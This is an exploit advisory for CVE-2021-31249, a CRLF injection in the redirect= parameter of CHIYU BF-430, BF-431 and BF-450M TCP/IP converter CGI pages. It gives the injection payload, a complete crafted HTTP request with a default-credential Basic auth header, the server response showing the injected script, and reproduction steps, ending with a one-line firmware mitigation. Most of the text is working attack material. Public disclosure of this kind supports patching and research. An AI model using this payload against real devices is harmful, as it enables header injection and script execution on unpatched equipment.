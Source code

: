 EXP
---

    # Exploit Title: CHIYU TCP/IP Converter devices - CRLF injection
    # Date: May 31 2021
    # Exploit Author: sirpedrotavares
    # Vendor Homepage: https://www.chiyu-tech.com/msg/msg88.html
    # Software Link: https://www.chiyu-tech.com/category-hardware.html
    # Version:  BF-430, BF-431, and BF-450M TCP/IP Converter devices   - all firmware versions < June 2021
    # Tested on:  BF-430, BF-431, and BF-450M
    # Publication: https://seguranca-informatica.pt/dancing-in-the-iot-chiyu-devices-vulnerable-to-remote-attacks

    Description: A CRLF injection vulnerability was found on BF-430, BF-431, and BF-450M TCP/IP Converter devices from CHIYU Technology Inc due to a lack of validation on the parameter redirect= available on multiple CGI components.
    CVSS: Medium – CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:L/I:N/A:N
    URL: https://gitbook.seguranca-informatica.pt/cve-and-exploits/cves/chiyu-iot-devices#cve-2021-31249

    Affected parameter: redirect=Component: all the CGI components
    Payload: %0d%0a%0d%0a<script>alert(document.domain)</script>

    ====HTTP request======
    GET
    /man.cgi?redirect=setting.htm%0d%0a%0d%0a<script>alert(document.domain)</script>&failure=fail.htm&type=dev_name_apply&http_block=0&TF_ip0=192&TF_ip1=168&TF_ip2=200&TF_ip3=200&TF_port=&TF_port=&B_mac_apply=APPLY
    HTTP/1.1
    Host: 192.168.187.12
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101
    Firefox/68.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://192.168.187.12/manage.htm
    Authorization: Basic OmFkbWlu
    Connection: close
    Upgrade-Insecure-Requests: 1

    ======HTTP response========
    HTTP/1.1 302 Found
    Location: setting.htm
    <script>alert(document.domain)</script>
    Content-Length: 0
    Content-Type: text/html


    Steps to reproduce:
      1. Navigate to the vulnerable device
      2. Make a GET request to all CGI components
      3. Append the payload at the end of the vulnerable parameter (redirect )
      4. Submit the request and observe payload execution


     Mitigation: The latest version of the CHIYU firmware should be installed
    to mitigate this vulnerability.
